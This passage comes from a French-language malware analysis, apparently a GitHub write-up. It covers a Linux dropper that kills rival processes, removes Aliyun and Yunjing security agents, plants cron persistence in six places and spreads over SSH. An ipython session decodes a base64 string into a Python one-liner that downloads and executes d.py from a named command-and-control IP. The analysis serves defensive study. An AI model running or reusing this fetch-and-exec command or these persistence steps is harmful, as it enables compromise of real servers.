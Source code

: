       * La libération de ces ports se fait via l'intermédiare d'une commande `netstat` suivie d'une commade `kill` sur les processus retenus.
    * Avec le même procédé, les processus contactent les IP suivantes sont coupés :
      * 23.94.24.12:8080
      * 134.122.17.13:8080
      * 107.189.11.170:443
    * Si un service nommé '[a]liyun' est en cours d'éxecution, il le coupe et le désinstalle grace à des scripts de désinstallation téléchargés
    * De même pour le service '[y]unjing'
    * Dans le cas à les dossiers `/var/spool/cron/crontabs` et `/etc/cron.hourly` n'existeraient pas, ils sont crées.
    * Supression d'un fichier `/usr/local/lib/libkk.so` si un fichier `/tmp/dbused` existe et ne correspond pas à l'un de deux condensats MD5 écrit dans le code.
    * Suppression du contenu d'un fichier `/etc/ld.so.preload`
    * fermeture de deux processus `wc.conf` et `susss`
  * Utilisation de la commande `ifconfig` et récupération des adresse broadcast disponibles. Si `ifconfig` n'est pas présent, la même démarche est faite avec la commande `ip a`
  * attribution d'une variable avec le nom de domaine où l'ip d'où provient le téléchargement de ce fichier xml. L'IP est toujours 209.141.40.190 et le nom de domaine, bash.givemexyz.in.
  * Téléchargement du fichier XML et enregistrement de ce dernier à 6 endroits différents :
    * `/etc/cron.d/root`
    * `/etc/cron.d/apache`
    * `/etc/cron.d/nginx`
    * `/var/spool/cron/root`
    * `/var/spool/cron/crontabs/root`
    * `/etc/cron.hourly/oanacroner1`
    * Des tâches planifiées sont crées pour procéder à l'execution et la persistence de ces fichiers.
  * Lecture des fichiers de configuration disponibles afin d'établir une connexion SSH avec d'autres machines et faire se répandre le maliciel .

## Chaîne python

Nous procédons tout d'abord au décodage de la chaine de caractère récupérée :
```ipython
$ ipython3
Python 3.8.10 (default, Jun  2 2021, 10:49:15) 
Type 'copyright', 'credits' or 'license' for more information
IPython 7.13.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import base64                                                           

In [2]: str='cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA
   ...: 6Ly8yMDkuMTQxLjQwLjE5MC9kLnB5IikucmVhZCgpKSc\='                         

In [3]: base64.b64decode(str)                                                   
Out[3]: b'python -c \'import urllib;exec(urllib.urlopen("http://209.141.40.190/d.py").read())\''
```

On découvre donc  qu'un autre fichier est également téléchargé depuis la même adresse IP. Nous le téléchargeons de la même manière que le fichier `xms`. Nous obtenons un fichier avec ces caractéristiques :
|*Nom*|*Taille*|*MD5*|*SHA1*|
|---|-----|------|-----|
|d.p<span>y|1.6K|f48605b08f80ecb8987ef9f04de3c610|61d3a4d68f9f52611f7770eaa7e7ac744feb7019|
